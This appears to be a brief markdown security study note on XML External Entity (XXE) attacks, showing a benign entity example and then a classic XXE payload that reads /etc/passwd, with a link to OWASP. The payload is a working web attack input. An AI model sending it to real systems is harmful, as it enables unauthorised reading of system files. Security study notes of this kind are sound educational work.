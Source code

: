 XML External Entities 

* abuses systems that parse XML input
* example 
	```
	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE gift [
			<!ENTITY from "MATT">
	]>
	<gift>
		<To>Frank</To>
		<From>&from;    Matt+Amber</From>
		<Item>Chocolate</Item>
	</gift>
	
	```
	
	* with the above example you could change the "MATT" part to something malicous 
	```
	<?xml version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [  
	  <!ELEMENT foo ANY >
	  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
	```

[XXE Attack])https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)